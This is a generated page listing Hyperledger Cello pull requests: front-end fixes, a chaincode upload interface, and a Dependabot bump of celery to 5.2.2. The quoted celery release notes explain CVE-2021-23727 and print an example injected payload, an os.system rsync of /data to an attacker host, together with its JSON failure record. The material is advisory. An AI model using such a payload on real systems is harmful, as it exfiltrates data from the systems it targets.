 ```yaml
---
layout: default
title: cello
parent: Hyperledger
grand_parent: Pull Requests
has_children: false
permalink: /pull-requests/hyperledger/cello
---
```


# cello <span class="fs-3 right-align">[GitHub](https://github.com/hyperledger/cello){: .btn .mr-4 }</span>


<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/378" class=".btn">#378</a>
            </td>
            <td>
                <b>
                    [#issue-374]network create failed: The front-end parameters are incon…
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                …sistent with the back-end parameters

front parames: consensus, db,name,type,version
but backend needs: name, consensus,database
Close #374 
Signed-off-by: fengyang_sy <fengyang.09186@h3c.com>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-11 02:14:00 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/375" class=".btn">#375</a>
            </td>
            <td>
                <b>
                    [#issue-373]Modify front-end channel module
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                1.Modify front end channel list page

2.Modify the response judgment to create channel request

Close #373 

Signed-off-by: fengyang_sy fengyang.09186@h3c.com
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 08:40:59 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/371" class=".btn">#371</a>
            </td>
            <td>
                <b>
                    [#issue-370]Modify front-end login module
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                Modify the front-end code according to the response information of the new login interface and the verification token interface

Close #370 

Signed-off-by: fengyang_sy <fengyang.09186@h3c.com>

            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 08:19:01 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/369" class=".btn">#369</a>
            </td>
            <td>
                <b>
                    [#issue-368] chaincode files upload
                </b>
            </td>
        </tr>
        <tr>
            <td>
                
            </td>
            <td>
                The interface of chain code upload is added. Temporarily save the chain code in the / opt / chaincode / {MD5} directory. In the future, consider making the package function in an interface?

and modified dashboard dockerfile of base image node version from 14.2.0 to 14.13.1 , to resolve the dashboard build error: 
error strip-css-comments@5.0.0: The engine "node" is incompatible with this module. Expected version "^12.20.0 || ^14.13.1 || >=16.0.0". Got "14.2.0"
error Found incompatible module.


Close #368

Signed-off-by: tianxuanhong1 <523713078@qq.com>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-08 00:55:07 +0000 UTC
    </div>
</div>

<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/367" class=".btn">#367</a>
            </td>
            <td>
                <b>
                    Bump celery from 4.2.1 to 5.2.2 in /src/api-engine
                </b>
            </td>
        </tr>
        <tr>
            <td>
                <span class="chip">Dependencies</span><span class="chip">python</span>
            </td>
            <td>
                Bumps [celery](https://github.com/celery/celery) from 4.2.1 to 5.2.2.
<details>
<summary>Release notes</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/releases">celery's releases</a>.</em></p>
<blockquote>
<h2>5.2.2</h2>
<p>Release date: 2021-12-26 16:30 P.M UTC+2:00</p>
<p>Release by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security
vulnerability).</p>
<blockquote>
<p>When a task fails, the failure information is serialized in the
backend. In some cases, the exception class is only importable
from the consumer's code base. In this case, we reconstruct the
exception class so that we can re-raise the error on the process
which queried the task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>. If
the recreated exception type isn't an exception, this is a
security issue. Without the condition included in this patch, an
attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code> by
setting the task's result to a failure in the result backend with
the os, the system function as the exception type and the payload
<code>rsync /data attacker@192.168.56.100:~/data</code> as the exception
arguments like so:</p>
<pre lang="python"><code>{
      &quot;exc_module&quot;: &quot;os&quot;,
      'exc_type': &quot;system&quot;,
      &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
}
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited
if the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result. The attacker would also have to
gain access to the result backend. The severity of this security
vulnerability is low, but we still recommend upgrading.</p>
</blockquote>
</li>
</ul>
<h2>v5.2.1</h2>
<p>Release date: 2021-11-16 8.55 P.M UTC+6:00</p>
<p>Release by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
<li>Change pytz&gt;dev to a PEP 440 compliant pytz&gt;0.dev.0.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Changelog</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/blob/master/Changelog.rst">celery's changelog</a>.</em></p>
<blockquote>
<h1>5.2.2</h1>
<p>:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security vulnerability).</p>
<p>When a task fails, the failure information is serialized in the backend.
In some cases, the exception class is only importable from the
consumer's code base. In this case, we reconstruct the exception class
so that we can re-raise the error on the process which queried the
task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>.
If the recreated exception type isn't an exception, this is a security issue.
Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code>
by setting the task's result to a failure in the result backend with the os,
the system function as the exception type and the payload <code>rsync /data attacker@192.168.56.100:~/data</code> as the exception arguments like so:</p>
<p>.. code-block:: python</p>
<pre><code>  {
        &quot;exc_module&quot;: &quot;os&quot;,
        'exc_type': &quot;system&quot;,
        &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
  }
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited if
the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result.
The attacker would also have to gain access to the result backend.
The severity of this security vulnerability is low, but we still
recommend upgrading.</p>
</li>
</ul>
<p>.. _version-5.2.1:</p>
<h1>5.2.1</h1>
<p>:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Commits</summary>
<ul>
<li><a href="https://github.com/celery/celery/commit/b21c13d234dd6d6c197436374ab1bb5db4be62c7"><code>b21c13d</code></a> Bump version: 5.2.1 → 5.2.2</li>
<li><a href="https://github.com/celery/celery/commit/a60b4867f4bd4efa4b5a2834fcf3f757740b1b8f"><code>a60b486</code></a> Add changelog for 5.2.2.</li>
<li><a href="https://github.com/celery/celery/commit/3e5d630f478518eb775c05ba87b29024400fbe68"><code>3e5d630</code></a> Fix changelog formatting.</li>
<li><a href="https://github.com/celery/celery/commit/1f7ad7e6df1e02039b6ab9eec617d283598cad6b"><code>1f7ad7e</code></a> Fix CVE-2021-23727 (Stored Command Injection securtiy vulnerability).</li>
<li><a href="https://github.com/celery/celery/commit/2d8dbc2a8087bbb60590465031ebd5138b8eb359"><code>2d8dbc2</code></a> Update configuration.rst</li>
<li><a href="https://github.com/celery/celery/commit/9596abad9060323d85d3945d8637b3cafadfefa2"><code>9596aba</code></a> Fix typo in documentation</li>
<li><a href="https://github.com/celery/celery/commit/639ad83239a1f9cfc58ee9852a1f107f96d3c1a1"><code>639ad83</code></a> update doc to reflect Celery 5.2.x (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7153">#7153</a>)</li>
<li><a href="https://github.com/celery/celery/commit/d32356c0e46eefecd164c55899f532c2fed2df57"><code>d32356c</code></a> Bump version: 5.2.0 → 5.2.1</li>
<li><a href="https://github.com/celery/celery/commit/6842a786eeeb2d0f1fcd66408b72924b39e07836"><code>6842a78</code></a> Merge branch 'master' of <a href="https://github.com/celery/celery">https://github.com/celery/celery</a></li>
<li><a href="https://github.com/celery/celery/commit/4c92cb745f658382a4eb4b94ba7938d119168165"><code>4c92cb7</code></a> changelog for v5.2.1</li>
<li>Additional commits viewable in <a href="https://github.com/celery/celery/compare/v4.2.1...v5.2.2">compare view</a></li>
</ul>
</details>
<br />


[![Dependabot compatibility score](https://dependabot-badges.githubapp.com/badges/compatibility_score?dependency-name=celery&package-manager=pip&previous-version=4.2.1&new-version=5.2.2)](https://docs.github.com/en/github/managing-security-vulnerabilities/about-dependabot-security-updates#about-compatibility-scores)

Dependabot will resolve any conflicts with this PR as long as you don't alter it yourself. You can also trigger a rebase manually by commenting `@dependabot rebase`.

[//]: # (dependabot-automerge-start)
[//]: # (dependabot-automerge-end)

---

<details>
<summary>Dependabot commands and options</summary>
<br />

You can trigger Dependabot actions by commenting on this PR:
- `@dependabot rebase` will rebase this PR
- `@dependabot recreate` will recreate this PR, overwriting any edits that have been made to it
- `@dependabot merge` will merge this PR after your CI passes on it
- `@dependabot squash and merge` will squash and merge this PR after your CI passes on it
- `@dependabot cancel merge` will cancel a previously requested merge and block automerging
- `@dependabot reopen` will reopen this PR if it is closed
- `@dependabot close` will close this PR and stop Dependabot recreating it. You can achieve the same result by closing it manually
- `@dependabot ignore this major version` will close this PR and stop Dependabot creating any more for this major version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this minor version` will close this PR and stop Dependabot creating any more for this minor version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this dependency` will close this PR and stop Dependabot creating any more for this dependency (unless you reopen the PR or upgrade to it yourself)
- `@dependabot use these labels` will set the current labels as the default for future PRs for this repo and language
- `@dependabot use these reviewers` will set the current reviewers as the default for future PRs for this repo and language
- `@dependabot use these assignees` will set the current assignees as the default for future PRs for this repo and language
- `@dependabot use this milestone` will set the current milestone as the default for future PRs for this repo and language

You can disable automated security fix PRs for this repo from the [Security Alerts page](https://github.com/hyperledger/cello/network/alerts).

</details>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-06 22:30:19 +0000 UTC
    </div>
</div>


